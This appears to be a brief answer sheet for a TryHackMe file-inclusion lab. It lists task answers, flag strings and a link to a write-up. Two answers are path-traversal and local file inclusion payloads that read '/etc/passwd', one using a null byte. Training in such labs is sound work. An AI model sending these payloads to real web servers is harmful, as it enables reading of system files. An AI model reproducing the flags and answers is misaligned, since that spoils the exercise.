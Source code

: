Answers:
- Task3:
	- file_get_contents
- Task4:
	- /lab1.php?file=/etc/passwd
	- includes
- Task5:
	- /lab3.php?file=../../../../etc/passwd%00
	- file_get_contents
	- THM-profile
	- 12.04
- Task6:
	- F1x3d-iNpu7-f0rrn
	- c00k13_i5_yuMmy1
	- P0st_1s_w0rk1in9
	- lfi-vm-thm-f8c5b1a78692




Writeup:
https://amandinegh.gitbook.io/cyberadventure/tryhackme/file-inclusion-room